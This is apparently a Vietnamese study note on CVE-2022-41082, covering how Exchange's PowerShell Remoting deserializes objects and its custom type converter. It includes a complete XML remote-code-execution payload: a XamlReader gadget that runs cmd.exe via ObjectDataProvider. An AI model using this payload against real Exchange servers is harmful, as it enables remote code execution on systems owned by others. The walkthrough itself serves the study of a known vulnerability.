 # CVE-2022-41082

## **Part 2: PowerShell Remoting Objects Conversions – Be Careful or Be Pwned (CVE-2022-41082)**

## 1. **PowerShell Remoting Conversions Basics and Exchange Converters**

Có 2 kiểu object trong PowerShell Remoting

primitive type objects:

```xml
<S>mystring</S> -> string

<BA>Ynl0ZWFycmF5Cg==</BA> -> byte array in form of a base64 encoded string
```

complex objects

```xml
<Obj RefId="RefId-0">
    <TN RefId="RefId-0">
        <T>System.Drawing.Point</T>
        <T>System.ValueType</T>
        <T>System.Object</T>
    </TN>
    <Props>
        <B N="IsEmpty">false</B>
        <I32 N="X">12</I32>
        <I32 N="Y">34</I32>
    </Props>
</Obj>
```

Có “Obj” tag, và tag “TN”, “T” để xác định kiểu object. Như trên là `System.Drawing.Point` **kế thừa từ `System.ValueType`.

“Props” tag chứa properties của object.

Deserialize object như nào? Rất phức tạp, tóm gọn lại ở 2 phần chính:

- Verifying if the specified type can be deserialized, kiểm tra file:
  - Exchange.types.ps1xml
  - Exchange.partial.types.ps1xml
- deserialize the object:
  - Retrieve properties/member sets, deserializing complex values if necessary.
  - Verify that this type is allowed to be deserialized.
  - If yes, perform the conversion.

PowerShell Remoting có nhiều converter để deserialize, để quyết định dùng converter nào, sẽ dùng hàm

```xml
System.Management.Automation.LanguagePrimitives.FigureConversion(Type fromType, Type toType)
```

Một số converter thú vị:

- ConvertViaParseMethod – invokes *Parse(String)* method on the target type. In this case, we control the string argument.
- ConvertViaConstructor – invokes the single-argument constructor that accepts an argument of type *fromType.* In this case, we can control the argument, but limitations apply.
- ConvertViaCast – invokes the proper cast operator, which could be an implicit or explicit cast.
- ConvertViaNoArgumentConstructor – invokes the no-argument constructor and sets the public properties using reflection.
- CustomConverter – there are also some custom converters specified.

## 2. **SerializationTypeConverter – Exchange Custom Converter**

Một ví dụ cụ thể trong file `Exchange.types.ps1xml`:

```xml
<Type>
    <Name>Deserialized.Microsoft.Exchange.Data.IPvxAddress</Name>
    <Members>
        <MemberSet>
        <Name>PSStandardMembers</Name>
        <Members>
            <NoteProperty>
            <Name>TargetTypeForDeserialization</Name>
            <Value>Microsoft.Exchange.Data.IPvxAddress</Value>
            </NoteProperty>
        </Members>
        </MemberSet>
    </Members>
</Type>
<Type>
    <Name>Microsoft.Exchange.Data.IPvxAddress</Name>
    <Members>
        <CodeProperty IsHidden="true">
        <Name>SerializationData</Name>
        <GetCodeReference>
            <TypeName>Microsoft.Exchange.Data.SerializationTypeConverter</TypeName>
            <MethodName>GetSerializationData</MethodName>
        </GetCodeReference>
        </CodeProperty>
    </Members>
    <TypeConverter>
        <TypeName>Microsoft.Exchange.Data.SerializationTypeConverter</TypeName>
    </TypeConverter>
</Type>
```

- *Microsoft.Exchange.Data.IPvxAddress*  class **nằm trong danh sách target cho phép
- *TargetTypeForDeserialization* có value là tên class đầy đủ
- Sử dụng CustomConverter: *Microsoft.Exchange.Data.SerializationTypeConverter*

…

## 3. **RCE Payload Walkthrough**

payload:

```xml
<Obj N="Args" RefId="12">
 <TNRef RefId="0" />
 <LST>
  <Obj RefId="13">
   <MS>
    <S N="N">-Identity:</S>
        <!--Object type section-->
    <Obj N="V" RefId="14">
     <TN RefId="2">
     <T>System.ServiceProcess.ServiceController</T>
      <T>System.Object</T>
     </TN>
     <ToString>Object</ToString>
    <!--Object type section end-->
    <!--Properties section-->
     <Props>
      <S N="Name">Type</S>
      <Obj N="TargetTypeForDeserialization">
       <TN RefId="2">
        <T>System.Exception</T>
        <T>System.Object</T>
       </TN>
       <MS>
        <BA N="SerializationData">AAEAAAD/////AQAAAAAAAAAEAQAAAB9TeXN0ZW0uVW5pdHlTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAREYXRhCVVuaXR5VHlwZQxBc3NlbWJseU5hbWUBAAEIBgIAAAAgU3lzdGVtLldpbmRvd3MuTWFya3VwLlhhbWxSZWFkZXIEAAAABgMAAABYUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQs=</BA>
       </MS>
      </Obj>
     </Props>
    <!--Properties section end-->
    <!--Payload section-->
     <S>
                        <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:System="clr-namespace:System;assembly=mscorlib" xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><System:String>cmd.exe</System:String><System:String>/c whoami > C:\\poc.txt</System:String> </ObjectDataProvider.MethodParameters> </ObjectDataProvider> </ResourceDictionary>]]>
     </S>
    <!--Payload section end-->
    </Obj>
   </MS>
  </Obj>
 </LST>
</Obj>
```

## 4. **Getting Control over TargetTypeForDeserialization**

## 5. **Getting Code Execution Through XamlReader, or Any Other Class**

## 6. Summary

